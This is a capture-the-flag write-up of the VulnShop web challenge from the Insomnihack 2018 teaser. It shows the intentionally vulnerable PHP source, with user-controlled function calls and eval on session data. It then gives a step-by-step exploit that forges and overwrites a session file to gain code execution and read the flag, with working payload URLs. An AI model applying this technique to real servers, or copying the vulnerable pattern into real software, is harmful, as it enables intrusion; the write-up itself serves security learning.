 # VulnShop

VulnShop was a web challenge in the Insomnihack 2018 teaser. It was solved by [SIben](https://twitter.com/_SIben_), nodauf and [Geluchat](https://twitter.com/Geluchat) (*khack40*) for Inshall'hack. While it ended up being the most flagged challenge of the CTF (apart from the warmup, of course), it was an interesting lesson.

## Challenge description

```
We're preparing a website for selling some important vulnerabilities in the future. You can browse some static pages on it, waiting for the official release.

http://vulnshop.teaser.insomnihack.ch
```

## Source code

The link leads to a page containing two interesting links: one to the source code of the page, and the other to the phpinfo output for the server.

The source code was the following:

```php
<?php if(isset($_GET['hl'])){ highlight_file(__FILE__); exit; }
    error_reporting(0); session_start(); 
    // Anti XSS filter
    $_REQUEST = array_map("strip_tags", $_REQUEST);
    // For later, when we will store infos about visitors.
    chdir("tmp");
?>
<!DOCTYPE html>
<html>
    <head>
        <title>Work in progress...</title>
        <meta charset="utf-8" />
        <meta http-equiv="content-type" content="text/html; charset=utf-8" />
        <style>
            body {
                background-color: #aaa;
                color:#fff;
            }
            
            .page {
                width: 50%;
                margin: 0 auto;
                margin-top: 75px;
            }
            
            
            .menu ul li {
                display:inline-block;
                vertical-align:top;
                margin-right: 30px;
                
            }
        </style>
    </head>
    <body>
        <div class="page">
            <div class="menu">
                <ul>
                    <li><a href="?page=default">Home</a></li>
                    <li><a href="?page=introduction">Introduction</a></li>
                    <li><a href="?page=privacy">Privacy</a></li>
                    <li><a href="?page=contactus">Contact</a></li>
                </ul>
            </div>
            
            <div class="content">
                <?php
                        switch($_GET['page']) {
                            case 'default':
                            default:
                                echo "<p>Welcome to our website about infosec. It's still under construction, but you can begin to browse some pages!</p>";
                                break;
                            case 'introduction':
                                echo "<p>Our website will introduce some new vulnerabilities. Let's check it out later!</p>";
                                break;
                            case 'privacy':
                                echo "<p>This website is unbreakable, so don't worry when contacting us about some new vulnerabilities!</p>";
                                break;
                            case 'contactus':
                                echo "<p>You can't contact us for the moment, but it will be available later.</p>";
                                $_SESSION['challenge'] = rand(100000,999999);
                                break;
                            case 'captcha':
                                if(isset($_SESSION['challenge'])) echo $_SESSION['challenge'];
                                // Will make an image later
                touch($_SESSION['challenge']);
                                break;
                            case 'captcha-verify':
                // verification functions take a file for later, when we'll provide more way of verification
                                function verifyFromString($file, $response) {
                                    if($_SESSION['challenge'] === $response) return true;
                                    else return false;
                                }
                                
                                // Captcha from math op
                                function verifyFromMath($file, $response) {
                                    if(eval("return ".$_SESSION['challenge']." ;") === $response) return true;
                                    else return false;
                                }
                                if(isset($_REQUEST['answer']) && isset($_REQUEST['method']) && function_exists($_REQUEST['method'])){
                                    $_REQUEST['method']("./".$_SESSION['challenge'], $_REQUEST['answer']);
                                }
                                break;

                        }
                ?>
            </div>
        </div>
        <p><a href="/?hl">View code source of the file, to be sure we're secure!</a></p>
        <p><a href="/phpinfo.php">Show our configurations</a></p>
    </body>
</html>
```

## Angles of attack

Ugh. Lots of different page options. Two lines catch the eye immediately though:
```php
$_REQUEST['method']("./".$_SESSION['challenge'], $_REQUEST['answer']);
```

and

```php
if(eval("return ".$_SESSION['challenge']." ;") === $response) return true;
```

The **phpinfo()** information tells us that the exec-like functions are disabled. We notice that we are able to write arbitrary data to the file `./".$_SESSION['challenge']` using the first line highlighted above with `method` set to `file_put_contents` and `answer` set to whatever we want to write to the file.

The file `./".$_SESSION['challenge']` must be created first of course, which is done by first visiting the **contactus** page (`$_SESSION['challenge'] = rand(100000,999999);`) followed by the **captcha** page (`touch($_SESSION['challenge']);`).

However, the following line is executed at the beginning of the program:
```
$_REQUEST = array_map("strip_tags", $_REQUEST);
```

We're therefore unable to write PHP code to a file, as we can not write the "<" character because of the filter.

The second line highlighted above seems very attractive all of a sudden, but it requires us to control the value of `$_SESSION['challenge']`.

## Modifying session data

In order to control the string passed to **eval**, we need to overwrite the session file with our payload. Fortunately, **phpinfo()** tells us that the session files are stored at `/var/lib/php/sessions`, which means that session **xxx** is stored at **/var/lib/php/sessions/sess_xxx**.

Here are the steps we need to follow:
1. Generate a valid session file containing our payload in `$_SESSION['challenge']`;
2. Write that payload to a file using **file_put_contents** and `$_REQUEST['method']("./".$_SESSION['challenge'],$_REQUEST['answer']);`;
3. Overwrite our session file with the file from the previous step;
4. Call the `verifyFromMath` function in order to trigger the **eval** and profit!

We're going to try to list the files on the server for a start.

### Step 1

The first step is achieved quite easily: in a PHP interpreter, we type the following lines:
```php
session_start();
$_SESSION['challenge'] = "var_dump(scandir($_GET['arg']))";
```
After closing the interpreter, we retrieve the contents of the session file:
`challenge|s:31:"var_dump(scandir($_GET['arg']))";`.

### Step 2

The second step is accomplished by visiting `http://vulnshop.teaser.insomnihack.ch/?page=captcha-verify&method=file_put_contents&answer=challenge|s:31:"var_dump(scandir($_GET['arg']))";`.

### Step 3

In the third step, we check our cookie to find out what our session file's name is. Assuming its name is **xxx**, we visit the following link: `http://vulnshop.teaser.insomnihack.ch/?page=captcha-verify&method=copy&answer=/var/lib/php/sessions/sess_xxx`.

### Step 4

The fourth step is basically just about gloating about how our awesome payload works, and actually using it:
we visit `http://vulnshop.teaser.insomnihack.ch/?page=captcha-verify&method=verifyFromMath&answer=1&arg=/`.
We notice a file named **flag** at the root of the server. Wonder what it could be.

## Wrapping up

Now that we know which file to read, we go through our 4 steps again, with the payload `var_dump(file_get_contents($_GET['arg']))`, and the result is:

**string(39) "INS{4rb1tr4ry_func_c4ll_is_n0t_s0_fun} "**
